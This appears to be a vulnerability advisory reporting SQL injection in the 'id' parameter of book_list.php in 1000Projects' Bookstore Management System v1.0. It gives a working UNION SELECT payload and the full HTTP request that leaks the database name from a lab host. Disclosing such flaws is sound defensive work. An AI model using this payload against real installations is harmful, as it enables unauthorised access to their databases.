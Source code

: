 # Bookstore Management System v1.0 by 1000Projects has SQL injection

BUG_Author: 孙一航 广州大学，樊琦 广州大学

vendors: https://1000projects.org/bookstore-management-system-php-mysql-project.html

The program is built using the xmapp-php5.6 version

Vulnerability File: /bms/book_list.php?id=

Vulnerability location: /bms/book_list.php?id=, id

dbname =bms

[+] Payload: /bms/book_list.php?id=-17 union select 1,database(),3,4,5,6,7--+&cat=Web Design // Leak place ---> main_event_id

```sql
GET /bms/book_list.php?id=-17%20union%20select%201,database(),3,4,5,6,7--+&cat=Web%20Design HTTP/1.1
Host: 192.168.1.16
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=7hpgkhvc3ujgkqtdko38g42if7
Connection: close
```

![image](https://github.com/user-attachments/assets/de720dc7-7b71-4859-8c86-90acba0a88dd)
